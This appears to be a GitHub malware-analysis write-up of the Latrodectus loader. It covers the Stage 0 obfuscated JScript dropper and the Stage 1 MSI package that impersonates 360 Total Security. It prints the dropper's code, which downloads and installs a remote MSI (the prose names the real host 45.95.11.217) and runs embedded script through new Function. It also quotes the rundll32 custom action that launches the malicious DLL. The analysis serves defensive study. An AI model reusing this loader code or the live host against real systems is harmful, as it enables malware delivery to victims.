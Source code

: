 ### ArachnoAnalysis: Spinning Webs with Latrodectus - A Novice's Dive into Malware Mysteries

<p align="center">
    <img src="assets/spider.png" width=200>
</p>

## Table of contents
- [Intruduction](#intruduction)
- [Stage 0 - The JS](#stage-0---the-js)
- [Stage 1 - The MSI package](#stage-1---the-msi-package)


## Intruduction


## Stage 0 - The JS

Stage 0 is appearing as an obfuscated JS file `<filename>.js` which contains the code that attempts to download an MSI package from a specified URL `http://45.95.11.217/ad.msi`. After downloading the MSI package, the JS file is using the `ActiveXObject` to iternact with Windows Installer and installs the product using the `InstallProduct()` method. 

The variable `a` employs an Immediately Invoked Function Expression (IIFE), encapsulating a function designed to locate and execute a script embedded within the current script file `WScript.ScriptFullName`. It utilizes the `Scripting.FileSystemObject` to navigate the file system, particularly for reading the lines of the script file. Within this context, the `e()` function iterates through the script file, identifying and extracting embedded script content, storing it in `d`. Subsequently, the `h()` function attempts to execute the extracted script content, provided it's not empty. The resulting object includes a method `j`, intended to orchestrate the entire process of discovering and executing the embedded script.

The `a.j()` invocation initiates the execution sequence by calling the `j` method of the `a` object. This method, in turn, endeavors to execute the embedded script discovered within the current script file.

```js
function installFromURL() {
        var installer;
        var msiPath;
        try {
            installer = new ActiveXObject("WindowsInstaller.Installer");
            installer.UILevel = 2;
            msiPath = "http://<snip>/<filename>.msi";
            installer.InstallProduct(msiPath);
        } catch (e) {
            WScript.Echo("failed: " + e.message);
        }
    }
    installFromURL();
    
    var a = (function() {
        var b = new ActiveXObject("Scripting.FileSystemObject"),
            c = WScript.ScriptFullName,
            d = "";
    
        function e() {
            if (!b.FileExists(c)) return;
    
            var f = b.OpenTextFile(c, 1);
            while (!f.AtEndOfStream) {
                var g = f.ReadLine();
                if (g.slice(0, 4) === "") d += g.substr(4) + "\n";
            }
            f.Close();
        }
    
        function h() {
            if (d !== "") {
                var i = new Function(d);
                i();
            }
        }
 
        return {
            j: function() {
                try {
                    e();
                    h();
                } catch (k) {}
    
            }
    
        };
    })();
    a.j();
```

## Stage 1 - The MSI package
An MSI package itself cannot be considered malicious because many products use it for their installation processes. However, in the exciting realm of malware analysis, we have to give it a chance to show its malicious side, RIGHT??? RIGHT... Let's dive in and see what mischief awaits! 

In order to analyze the MSI package, we have to install a specific 'unpacker' and see what the package contains. I chose to use the [lessmsi](https://github.com/activescott/lessmsi) tool for this purpose.

Let's start by diving deep into the package extractions, where we can find that a suspicious DLL is being extracted from the package named `360total.dll`.
![](assets/msi/1.PNG)

Very interesting finding, BUT let's proceed with the package investigation and explore the tables.

In the property table, we can find information regarding the package creator, such as the manufacturer, description, and product name. Based on the name `360 Total`, the entire setup seems to be an impersonation attempt of the 360 Total security solution AV.

![](assets/msi/2.PNG)


A very interesting table is the `CustomAction`, where an actor can insert their own custom actions or commands into the package flow. Here, they could potentially execute the extracted `360total.dll`—which is likely malicious—.

* `C:/Windows/System32/rundll32.exe [LocalAppDataFolder]sharepoint\360total.dll, homq`

The above command is executing the DLL with the `homq` entry point, which will be executed.


Note that `rundll32.exe` is a legitimate executable that exists on Windows. However, like other similar executables, it can be used in a malicious manner. e.g. [LOLBAS Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)

![](assets/msi/3.PNG)

Finally, it appears that the entire packaging process was carried out using Caphyon Advanced Installer.

![](assets/msi/4.PNG)